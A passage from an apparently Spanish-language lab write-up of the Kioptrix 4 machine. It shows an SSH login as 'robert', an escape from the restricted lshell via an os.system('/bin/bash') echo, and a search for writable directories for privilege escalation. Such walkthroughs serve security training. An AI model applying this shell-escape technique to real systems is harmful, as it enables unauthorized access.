 #### Explotación
Con esta contraseña, que no esta cifrada aunque lo parezca se obtuvo acceso, pero limitado:
```python
$ssh robert@192.168.0.69
[...]
robert@192.168.0.69's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
robert:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
```

Con el usuario `robert` no se obtuvo nada con la shell restringida, pero es muy sencillo baipasearla.
```python
robert:~$ $(echo "cd /tmp")
robert:~$ echo !$
!$
robert:~$ cd $(echo '/tmp')
*** forbidden syntax -> "cd $(echo '/tmp')"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
robert:~$ echo os.system('/bin/bash')
robert@Kioptrix4:~$
```

#### GanarControl
Se buscaron directorios donde el usuario `robert` pueda escribir, dando como resultado, algunos donde se pueda obtener más información para el compromiso.
```python
robert@Kioptrix4:~$ find / -type d -perm /u=w,g=w,o=w 2>/dev/null
[...]
/mnt
/home
/home/robert
/home/john
/home/loneferret
/var
[...]
/var/www
/var/www/images
/var/www/robert
/var/www/john
[...]
/etc
[...]
/etc/cron.daily
/etc/mysql
/etc/mysql/conf.d
[...]
/tmp
/tmp/.winbindd
/root
/root/.ssh
/root/lshell-0.9.12
```
